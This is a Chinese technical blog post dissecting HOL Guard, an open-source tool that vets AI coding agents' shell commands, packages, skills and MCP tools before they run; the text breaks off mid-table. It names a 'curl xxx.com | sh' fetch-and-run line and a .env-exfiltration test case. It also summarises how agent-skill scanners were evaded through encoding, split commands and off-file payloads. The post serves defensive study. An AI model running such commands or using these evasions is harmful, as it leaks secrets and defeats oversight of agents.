




## 一、引子：Agent 有了手，但没有体检

2026 年是 Coding Agent 的爆发年。到今天为止，Claude Code、Codex、Cursor、Gemini CLI 这些工具已经能读写文件、跑 shell、装依赖、调 MCP server——**权限比很多初级工程师的账号还大**。

而围绕它们的防护，也在同步生长。本系列已经写过不少：

- [nono](https://xuqi2024.github.io/2026/10/08/2026-10-08-nono-agent-runtime-security-zero-latency-kernel-sandbox-sigstore-supply-chain-architecture-deep-dive/) —— Linux Landlock / macOS Seatbelt 内核级沙箱，0.5ms 启动、5MB 内存
- [Microsoft Agent Governance Toolkit](https://xuqi2024.github.io/2026/10/13/2026-10-13-microsoft-agent-governance-toolkit-owasp-os-kernel-policy-engine-deep-dive/) —— OS 内核语义级治理，OWASP Agentic Top 10 全映射
- [OpenShell](https://xuqi2024.github.io/2026/10/24/2026-10-24-nvidia-openshell-agent-sandbox-z3-smt-formal-policy-verification-deep-dive/) —— Z3 SMT 形式化策略验证
- [E2B](https://xuqi2024.github.io/2026/10/30/2026-10-30-e2b-cloud-agent-sandbox-envd-firecracker-pause-snapshot-deep-dive/) —— 云端 Firecracker 沙箱

这些方案的共同点是：**把 Agent 关进笼子**（沙箱、权限边界、策略内核）。

但有一个问题没人回答：

> **笼子本身是干净的谁来验？Agent 从市场装一个插件、从 npm 装一个包、从别处复制一段 `SKILL.md`，谁在它进笼子之前检查一遍？**

2026 年 6 月 CSA（Cloud Security Alliance）发布的研究显示：**市面上的 Agent Skill 扫描器被 100% 绕过**——用编码、拆分命令、把 payload 放在被扫描文件之外就行。

这就是 [HOL Guard](https://github.com/hashgraph-online/hol-guard) 的切入点。它的自我定位非常直接：

> **Open-source antivirus and firewall for AI agents** —— 给 AI Agent 用的杀毒软件和防火墙。

本文拆解它的核心架构，重点讲三件其他项目没做过的事：**① 决策的「单调性」校验；② 规则引擎的自我证明；③ 把自己扫描器的漏检案例明明白白写在文档里。**

---

## 二、项目定位与核心价值

### 2.1 仓库元信息

| 指标 | 值 |
| --- | --- |
| 全名 | `hashgraph-online/hol-guard` |
| Star | **1,075** |
| Fork | 250 |
| Open Issues | 89 |
| 主语言 | **Rust**（`rust/crates/` 下 29 个 crate） |
| License | Apache-2.0 |
| 创建时间 | 2026-03-28 |
| 最近推送 | **2026-11-07**（活跃度极高） |
| 主页 | https://hol.org/guard |
| Topics | `ai-antivirus` / `supply-chain-security` / `mcp-security` / `prompt-injection` / `runtime-security` |

7 个月从 0 冲到 1.1k ⭐，而且 **CHANGELOG.md 有 560KB**——这个项目的迭代密度极高。

### 2.2 它到底防什么

HOL Guard 的 README 用一张表把「防护面」讲得很清楚：

| 防护面 | 具体检查什么 |
| --- | --- |
| **Shell 命令与文件访问** | 破坏性操作、敏感文件读取、凭据暴露、可疑外发命令 |
| **包安装** | 对照供应链情报评估包管理器操作 |
| **插件 / Skill / Agent 配置** | 清点本地制品，在启动前审查新增或变更的工具 |
| **MCP server 与工具** | 检查 server 配置，通过 hook 与受管代理审查工具调用 |
| **Prompt 与工具结果** | 筛查提示注入与敏感内容 |
| **审批与证据** | 决策路由到原生提示或审批中心，记录本地回执（receipt） |

**关键点：这是「执行前」的审查，不是「执行后」的审计。** 传统杀毒软件在文件落盘后扫描；HOL Guard 在 Agent **准备执行**那条命令之前就拦下来。

### 2.3 支持的 Agent 矩阵

覆盖 16 个 Coding Agent / Harness：Codex、Claude Code、GitHub Copilot CLI、Cursor、Cline、Gemini CLI、Grok、Hermes、Kimi Code、Pi、oh-my-pi、OpenClaw、OpenCode、Antigravity、ZCode、Devin。

而且它的**拦截方式按 Harness 分**，不是一刀切：

```text
Harness                      阻断型判定值        非阻断型判定值
Codex, Claude Code, Copilot,  0 (PreToolUse,       0
Pi, OMP, Muse                 UserPromptSubmit,
                              PermissionRequest)
Cursor, Devin, Kimi, Hermes  2                    0
OpenCode, Superagent          1                    0
```

> 来自 `docs/guard/harness-support.md`

---

## 三、整体架构

### 3.1 顶层视图

HOL Guard 是 **Rust 常驻进程 + Python 守护进程** 的双层结构。核心判断逻辑用 Rust 重写（性能与确定性），外层编排与 Agent 适配留在 Python。



### 3.2 六个执行面的职责划分

`docs/guard/architecture.md` 把运行时切得很干净：

```text
guard/adapters   → harness 发现（Codex / Claude Code / Copilot CLI / Cursor / Gemini / Grok / Kimi / OpenCode）
guard/shims      → 本地启动器 shim，把 harness 启动路由到 Guard
guard/consumer   → 检测、策略求值、consumer 模式扫描输出
guard/policy     → 本地动作求值：allow / review / warn / block
guard/receipts   → 首次使用与变更制品的回执生成
guard/runtime    → wrapper 模式启动流程 + 可选同步端点
guard/store      → SQLite 持久化：快照、差异、回执、受管安装、同步状态
guard/schemas    → consumer 模式输出的稳定 JSON 载荷
```

### 3.3 本地产品闭环



> 来自 `docs/guard/architecture.md` 第 18-25 行的 6 步流程

**第 6 步是整条链的安全锚点**：动作不是 `block` 才放行启动。

---

## 四、核心引擎一：六值 GuardAction 严重度格

### 4.1 为什么不是「允许 / 拒绝」二元

绝大多数 Agent 权限系统只有两个状态：允许或拒绝。但真实世界的安全处置至少有六档。HOL Guard 定义了一个**全序（total order）严重度格**：

```rust
// 来自 rust/crates/guard-contracts/src/decision_lattice.rs:37-79
// 说明：以下为源码节选，impl 块的方法体在节选边界处截断，故括号不成对。
#[derive(Debug, Clone, Copy, PartialEq, Eq, Hash, PartialOrd, Ord)]
pub enum GuardAction {
    Allow,
    Warn,
    Review,
    RequireReapproval,
    SandboxRequired,
    Block,
}

impl GuardAction {
    pub const fn as_str(self) -> &'static str {
        match self {
            Self::Allow => "allow",
            Self::Warn => "warn",
            Self::Review => "review",
            Self::RequireReapproval => "require-reapproval",
            Self::SandboxRequired => "sandbox-required",
            Self::Block => "block",
        }
    }

    /// Canonical severity rank (matches `GUARD_ACTION_SEVERITY`, contiguous).
    pub const fn severity(self) -> i32 {
        match self {
            Self::Allow => 0,
            Self::Warn => 1,
            Self::Review => 2,
            Self::RequireReapproval => 3,
            Self::SandboxRequired => 4,
            Self::Block => 5,
        }
    }

    /// The canonical lattice order (severity rank ascending).
    pub const LATTICE: [GuardAction; 6] = [
        GuardAction::Allow,
        GuardAction::Warn,
        GuardAction::Review,
        GuardAction::RequireReapproval,
        GuardAction::SandboxRequired,
        GuardAction::Block,
    ];
}
```

**六个值的语义分工**值得单独说：

| 动作 | 语义 | 触发场景 |
| --- | --- | --- |
| `allow` | 直接放行 | 已知安全 |
| `warn` | 放行但提示 | 低危但值得提醒 |
| `review` | 暂停，等人工审批 | 证据不足 / 存在敏感操作 |
| `require-reapproval` | 「制品变了才重新问」 | 已批准过，但内容变了 |
| `sandbox-required` | 要求在沙箱内跑 | 命令本身合法但需要隔离 |
| `block` | 硬阻断 | 确定恶意 / 无法证明安全 |

注意 `review` 和 `require-reapproval` 的区别——文档里有非常精确的定义：

> `require-reapproval` means "ask again when the artifact changes", not "ask again every time".
>
> 来自 `docs/guard/approval-invariant.md`

### 4.2 未知输入的归一化：fail-to-review

这是整个格最重要的一个设计决定。**当输入无法识别时，默认动作是 `review` 而不是 `allow`**：

```rust
// 来自 rust/crates/guard-command/src/action_lattice.rs:12-13
pub const UNKNOWN_GUARD_ACTION_REASON: &str = "guard_action_unknown";
pub const DEFAULT_UNKNOWN_GUARD_ACTION: GuardAction = GuardAction::Review;
```

而且归一化会**保留原始输入的证据**，便于审计：

```rust
// 来自 rust/crates/guard-command/src/action_lattice.rs:99-105
    GuardActionNormalization {
        action: unknown_action,
        reason_code: Some(UNKNOWN_GUARD_ACTION_REASON),
        original_action: value.as_str().map(str::to_owned),
        original_type: value_type_name(value),
    }
```

`value_type_name` 尤其考究——它精确复刻了 Python 的 `type(value).__name__` 语义：

```rust
// 来自 rust/crates/guard-command/src/action_lattice.rs:39-48
        Value::Number(number) => {
            let text = number.to_string();
            if text.contains(['.', 'e', 'E']) {
                "float"
            } else {
                "int"
            }
        }
```

注释解释了为什么不能问「这个数能不能塞进 i64」：

> `json.loads` builds an `int` unless the literal carries a fraction or an exponent, however many digits it has, so a 31-digit integer is still an `int`. `arbitrary_precision` keeps the literal's own text, so read that rather than asking whether the value fits an i64.

### 4.3 最严者胜

多个证据源同时给出版本时，取最严的：

```rust
// 来自 rust/crates/guard-command/src/action_lattice.rs:119-131
pub fn most_restrictive_guard_action(
    actions: &[Value],
    unknown_action: GuardAction,
) -> GuardAction {
    if actions.is_empty() {
        return normalize_guard_action(&Value::Null, unknown_action);
    }
    actions
        .iter()
        .map(|action| normalize_guard_action(action, unknown_action))
        .max_by_key(|action| action.severity())
        .expect("non-empty actions")
}
```

`expect("non-empty actions")` 值得注意——空列表在前面已经 return 了，这里的 `expect` 是**不可能触发的断言**，把「不可能」写进代码而不是靠注释。

---

## 五、核心引擎二：单向权威（决策单调性校验器）

这是 HOL Guard **最独特、也最值得学习**的设计。

### 5.1 问题：谁可以把 block 降级成 allow？

一个 Agent 权限系统里，决策可能来自很多地方：

- 用户配置的策略（configured_action）
- 扫描器给出的风险信号（scanner_action）
- 运行时检测器实时发现的问题（runtime_detector_action）
- 上次保存的审批（saved_action）
- 当前这一次的动作（current_action）
- 多个扩展（extension）各自给的最小动作

**如果这些来源汇合时，一个弱的来源能把强的来源「稀释」掉，那整套系统就是纸糊的。**

典型的翻车场景：runtime detector 明确判定 `block`，但上层策略合并时取了个 `max_by_key` 或者某种「用户偏好优先」，最终变成 `allow`——恶意命令就这么过去了。

### 5.2 解决方案：composition_trace + 单调性校验

HOL Guard 的做法是：**每个决策必须附带一份「组合轨迹」，记录所有来源各自的判定；然后用一个校验器证明最终动作没有弱化任何权威来源。**



### 5.3 校验器的实际代码

```rust
// 来自 rust/crates/guard-contracts/src/authoritative_decision.rs:491-553
// 说明：以下为源码节选，函数体在节选边界处截断，故括号不成对。
/// `_validate_composition_trace` — reject action-bearing trace data that could
/// conceal stronger authority.
pub fn validate_composition_trace(
    action: GuardAction,
    trace: &Map<String, Value>,
) -> Result<(), VErr> {
    if trace.get("final_action") != Some(&json!(action.as_str())) {
        bail!("composition_trace.final_action must match action");
    }
    reject_unknown_composition_action_fields(trace)?;
    let mut parsed: Map<String, Value> = Map::new();
    for key in COMPOSITION_ACTION_FIELDS {
        match trace.get(key) {
            None => {
                parsed.insert(key.to_string(), Value::Null);
                continue;
            }
            Some(Value::Null)
                if matches!(key, "configured_action" | "saved_action" | "scanner_action") =>
            {
                parsed.insert(key.to_string(), Value::Null);
                continue;
            }
            Some(v) => {
                if !is_guard_action_value(v) {
                    bailf!("composition_trace.{key} must be a known Guard action or null");
                }
                parsed.insert(key.to_string(), v.clone());
            }
        }
    }

    // ... trusted_override / saved_state_present 解析 ...

    let runtime_action = parsed.get("runtime_detector_action");
    let runtime_block = matches!(runtime_action, Some(Value::String(s)) if s=="block");
    if runtime_block && action != GuardAction::Block {
        bail!("runtime detector block cannot be overridden");
    }
    let current_action = parsed.get("current_action");

    for (key, candidate) in &parsed {
        let Some(cand_str) = candidate.as_str() else {
            continue;
        };
        let Some(cand) = GuardAction::from_canonical(cand_str) else {
            continue;
        };
        if !is_terminal_composition_action(cand) {
            continue;
        }
        if action.severity() < cand.severity() {
            bailf!("composition_trace.{key} cannot be weakened by the final action");
        }
    }
```

### 5.4 三个必须记住的不变式

这段代码里藏着三条极有价值的安全不变式：

**不变式 1：运行时检测器的 block 不可覆盖。**

```rust
// 来自 rust/crates/guard-contracts/src/authoritative_decision.rs:536-538
    if runtime_block && action != GuardAction::Block {
        bail!("runtime detector block cannot be overridden");
    }
```

**不变式 2：运行时检测器的 warn 不可被抹掉。**

```rust
// 来自 rust/crates/guard-contracts/src/authoritative_decision.rs:579-582
    let runtime_warn = matches!(runtime_action, Some(Value::String(s)) if s=="warn");
    if runtime_warn && action.severity() < GuardAction::Warn.severity() {
        bail!("runtime detector warning cannot be erased by the final action");
    }
```

**不变式 3：整体权威不可被削弱，除非有显式豁免。**

```rust
// 来自 rust/crates/guard-contracts/src/authoritative_decision.rs:591-609
    let authority_inputs: Vec<GuardAction> = parsed
        .iter()
        .filter(|(k, _)| k.as_str() != "runtime_detector_action")
        .filter_map(|(_, v)| v.as_str())
        .filter_map(GuardAction::from_canonical)
        .collect();
    let strongest_input = authority_inputs
        .iter()
        .copied()
        .max_by_key(|a| a.severity());
    match strongest_input {
        None => return Ok(()),
        Some(si) if action.severity() >= si.severity() => return Ok(()),
        _ => {}
    }
    if explicit_approval_override {
        return Ok(());
    }
    bail!("composition_trace final action weakens authority without an explicit allowed override")
```

注意最后那个 `explicit_approval_override` —— **唯一的豁免通道是「显式的人工审批」**，而不是「某个策略文件说可以」。这就堵死了「配置文件里悄悄加一条白名单」的降级路径。

### 5.5 递归拒绝「藏起来的动作字段」

还有一个细节：校验器会**递归遍历整个 trace**，拒绝任何未知的、携带动作值的字段——防止有人往 JSON 里塞一个 `{"deep": {"nested": "allow"}}` 来骗过检查：

```rust
// 来自 rust/crates/guard-contracts/src/authoritative_decision.rs:612-614
// 说明：以下为源码节选，函数体在节选边界处截断，故括号不成对。
/// `_reject_unknown_composition_action_fields` — reject hidden action aliases
/// at any nesting depth.
fn reject_unknown_composition_action_fields(trace: &Map<String, Value>) -> Result<(), VErr> {
```

这是典型的「**白名单而非黑名单**」安全设计。

---

## 六、核心引擎三：规则引擎的自我证明

### 6.1 74 个 crate 的域分离摘要

HOL Guard 的 Rust 侧有 29 个 crate，其中规则引擎部分由 `guard-rule-contract` 统一「封印」：它对 **74 个组件**的源码字节各算一个 SHA-256，然后用**域分隔**（domain separation）的方式合并成一个 `rule_digest`。

```rust
// 来自 rust/crates/guard-rule-contract/src/lib.rs:7-13
pub const RULE_CONTRACT_SCHEMA: &str = "hol-guard-native-rule-contract.v2";
const RULE_CONTRACT_DOMAIN: &[u8] = b"hol-guard-native-rule-contract.v2\0";
const PROGRAM_COMPONENT: &str = "native-command-program-artifact";

// Component digests are computed by build.rs so the packaged runtime embeds
// hashes instead of a second copy of every component's source bytes.
include!(concat!(env!("OUT_DIR"), "/rule_components.rs"));
```

```rust
// 来自 rust/crates/guard-rule-contract/src/lib.rs:48-61
            let mut combined = Sha256::new();
            combined.update(RULE_CONTRACT_DOMAIN);
            for component in &components {
                combined.update(component.name.as_bytes());
                combined.update([0]);
                combined.update(component.sha256.as_bytes());
                combined.update([0]);
            }

            RuleContract {
                schema: RULE_CONTRACT_SCHEMA,
                components,
                rule_digest: hex::encode(combined.finalize()),
            }
```

**三个细节值得单独拆解**：

1. **域分隔符**：`b"hol-guard-native-rule-contract.v2\0"` 里的尾部 `\0` 是**域分隔符**（domain separator）。它保证这个摘要**不可能**和任何其他哈希上下文混淆——攻击者不能构造一个别的数据让摘要碰撞后被误当成规则契约。
2. **名字 + `\0` + 摘要** 交替拼接：即使两个组件的摘要顺序被换，`rule_digest` 也会变。
3. **`build.rs` 编译期计算**：摘要来自构建时嵌入，运行时**不需要再存一份源码**，避免「运行时读文件算摘要」被 TOCTOU 攻击。

### 6.2 测试即不变式声明

这个 crate 的测试直接把 74 个组件名写死成断言——**任何一个组件被增删改，测试立刻失败**：

```rust
// 来自 rust/crates/guard-rule-contract/src/lib.rs:88-161
        assert_eq!(
            first
                .components
                .iter()
                .map(|component| component.name)
                .collect::<Vec<_>>(),
            vec![
                "guard-rules",
                "guard-scanner",
                "guard-secure-fs",
                "guard-hook-core",
                "guard-contracts",
                "guard-command-pretool",
                // ... 共 74 项
                "guard-runtime-native-hook-receipt",
                "guard-runtime-edge",
            ]
        );
```

而 `assert!(!sha256.is_empty(), "rule contract component bytes missing")` 则保证了**没有任何组件可以被「留空」绕过**。

**这套机制的价值**：如果有人想在 Guard 的规则引擎里塞一条后门规则（比如把 `curl xxx.com | sh` 标成安全），`rule_digest` 会立刻变化——而这个 digest 是**随发布物一起分发的**，下游可以比对。这是一种「规则集指纹」，类似 SLSA / in-toto 的思路，但用在了**检测规则**而不是**构建产物**上。

---

## 七、核心引擎四：扩展决策下限（Decision Floor）

### 7.1 扩展只能抬高下限，不能授予放行

HOL Guard 有 252 个扩展契约（`contracts/extensions/trust/`），覆盖备份（Borg/Rclone/Restic/Velero）、CDN、CICD（GitHub/GitLab/CircleCI）、云（AWS/Azure）、数据库等命令领域。

每个扩展的信任契约极简：

```json
{
  "extension": "command.agentbridge",
  "schemaVersion": "guard.extension-trust-binding.v1",
  "trustClass": "external"
}
```

**扩展的权限被严格限制在「给出证据 + 一个最小动作」**：

```text
An extension emits evidence and a minimum action. It never grants an allow or replaces workspace policy.

Required  Severity              Rule mode  Minimum action
no        any                   disabled    allow
no        any                   monitor    monitor
no        any                   review     review
no        any                   enforce    block
no        any                   required   review
yes       low, medium, high     any        at least review
yes       critical              any        block
```

> 来自 `docs/guard/command-extension-precedence.md`

### 7.2 六条不变式

```text
1. Multiple matches retain all evidence. The strongest minimum action controls; severity breaks ties.
2. A trusted built-in safe variant suppresses only evidence from its declaring rule and matched segment.
3. Required status is immutable outside built-in definitions. External configuration cannot add a safe variant to a required rule.
4. Parser uncertainty with sensitive evidence raises the minimum action to review.
5. Remembered decisions require the full security identity. They are evaluated after extension evidence and cannot weaken a required floor.
6. Workspace and managed policy may preserve or strengthen the floor. Final approval and block authority remains outside extensions.
```

> 来自 `docs/guard/command-extension-precedence.md`

**第 4 条特别关键**：解析器有不确定性时，只要证据敏感，动作就**升到 review**。这是「不确定即保守」的典型实现。

**第 5 条**则堵死了「上次批准过 → 这次直接放行」这条最常见的降级路径：记忆的决策必须带完整安全身份，且**在扩展证据之后求值**，不能弱化下限。

### 7.3 威胁模型里的信任边界表

`docs/guard/command-extension-threat-model.md` 给出的信任边界划分非常清晰：

| 边界 | 信任与许可权限 |
| --- | --- |
| Harness adapter | 可提取文本与出处；**不可**静默选择方言或宣称安全 |
| 命令输入与工作区 | **不可信数据**。文件可以推荐扩展，但**不能加载代码、禁用必需规则或授予策略权威** |
| 规范解析器 | 受信任代码处理恶意输入，受严格限额约束；**不做展开也不执行** |
| 内建注册表 | 受信任、带版本的产品内容，受既有完整性控制保护 |
| 本地管理员定义 | 声明式且从受保护状态显式批准；**不能遮蔽或弱化内建项** |
| 受管定义 | 声明式、**已签名**、新鲜、可回滚保护、绑定正确的工作区/来源权威 |
| 匹配器输出 | **在 schema、归属、置信度与预算检查通过前都是不可信证据**，永不是最终决策 |
| 策略与记忆 | **唯一决策权威**，受优先级、作用域、身份版本与完整性检查约束 |

**「匹配器输出永不是最终决策」**——这一行是整个扩展机制的安全基石。

### 7.4 威胁与对策摘录

```text
### Matcher evasion or resource exhaustion
Hostile input or declarative patterns may trigger excessive tokenization, match explosions,
catastrophic regex behavior, deep nesting, or timeouts. A timeout could otherwise become an allow.

Controls: independent parser and evaluator byte, token, segment, depth, payload, match-count,
and time budgets; executable/keyword indexing; registry-time regex validation and compilation;
guaranteed-linear matching or interruptible isolation for non-linear cases;
timeout is typed uncertainty and never automatic safety.
```

**「timeout is typed uncertainty and never automatic safety」** —— 超时不是「安全」，超时是「不确定」。这个区分极其重要：很多系统在超时后默认放行，那就是把「不知道」当成「没问题」。

---

## 八、AI Bill of Materials 与信任评分

### 8.1 信任评分的加权模型

HOL Guard 为插件、Skill、MCP 配置各定义了一套信任评分 profile，采用**加权均值 + 贡献模式（contribution mode）**：

```text
Adapter ID                          Weight   Contribution Mode
verification.manifest-integrity     0.35     universal
verification.interface-integrity    0.25     conditional
verification.path-safety            0.20     universal
security.secret-hygiene            0.35     universal
security.mcp-safety                0.20     conditional
operations.action-pinning          0.2625   universal
metadata.provenance                 0.1875   universal
```

> 来自 `docs/trust/plugin-trust-draft.md`

聚合算法有四条规则：

```text
1. clamp emitted scores to [0,100]
2. materialize missing universal adapter scores as 0
3. include conditional adapters only when their subject actually exposes the corresponding surface
4. compute the final plugin trust score as the weighted mean of the included adapter totals
```

**第 3 条最巧妙**：`conditional` 类型的适配器，只有当被评对象**真的暴露了对应面**时才计入分母。否则一个纯粹的 Skill 包（没有 MCP 配置）会因为「没有 MCP 安全问题」而被扣分——这是评分模型里非常常见的一类错误。

### 8.2 Skill 信任用外部规范

Skill 的信任评分直接对齐外部发布的 **HCS-28** 规范，而不是私有 profile：

```text
Normative provenance
Specification: HCS-28
Specification version: 0.1
Profile: hcs-28/baseline
Related publication model: HCS-26
```

用外部规范做规范基线（normative provenance），意味着这个分数**可复现、可对比**，而不是「这家平台自己说了算」。

### 8.3 AI BoM 导出

```bash
# 导出 AI Bill of Materials
hol-guard abom --format json
```

AI-BoM 的概念是传统 SBOM（软件物料清单）的 AI 版：把 Agent 运行时依赖的插件、Skill、MCP server、包版本、信任分数全部列成机器可读清单。这是让企业安全团队能把 Agent 纳入既有 SBOM / 资产管理体系的关键一步。

---

## 九、⭐ 必须诚实指出的源码自陈缺陷

这是本系列最有价值的部分。HOL Guard 在自己的文档里**量化披露了扫描器的漏检情况**。

### 9.1 扫描器规避语料库：11 个案例，4 个检出，7 个漏检

`docs/trust/scanner-evasion-corpus.md` 的开头就承认了 CSA 2026 年 6 月的研究结论：

> Static scanners for agent skills and plugins can be evaded. Public research in 2026 bypassed every skill scanner it tested with encoding, split commands and payloads kept outside the scanned files.

然后它给出一张诚实的成绩单：

| 案例 | 类别 | 结果 | 技术 |
| --- | --- | --- | --- |
| `control-plain-exfil` | 对照 | 检出 | 读 `.env` 并 POST 到远端的普通 shell 命令 |
| `split-across-lines` | 拆分流 | 检出 | 同一条命令在围栏块里用续行拆开 |
